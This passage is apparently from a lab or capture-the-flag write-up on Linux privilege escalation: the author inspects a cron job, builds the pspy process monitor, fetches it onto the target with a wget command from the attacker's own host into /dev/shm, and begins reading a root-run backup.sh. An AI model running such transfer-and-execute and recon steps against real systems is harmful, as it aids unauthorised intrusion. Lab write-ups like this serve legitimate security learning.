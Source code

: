![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556691418059_image.png)


*there is a cron.d for php*

    cat /etc/cron.d/php

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556691468418_image.png)


*nothing here just a session cleanup. Every minute an event is occurring… which the cron could be under the root user which at this point there is no way to view that without a tool* `pspy`.

download pspy: https://github.com/DominicBreuker/pspy


## build pspy
    GOOS=Linux GOARCH=amd64 go build

to download the extra packages

    go get ..package..

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556691978294_image.png)


rebuild:

    GOOS=Linux GOARCH=amd64 go build

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556692035129_image.png)


next were are going to send pspy to our target box with a `simplehttpserver`

target save location `/dev/shm`

    wget 10.10.10.3:8000/pspy

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556692174420_image.png)


execute, and now it is watching processes

pspy output:

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556696986611_image.png)


*now we now that* `*/bin/sh*` *is running the backup.sh*

investigating the `backup.sh`

    ls -ls /usr/bin/backup.sh

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556697064115_image.png)


read with less:

    less /usr/bin/backup.sh
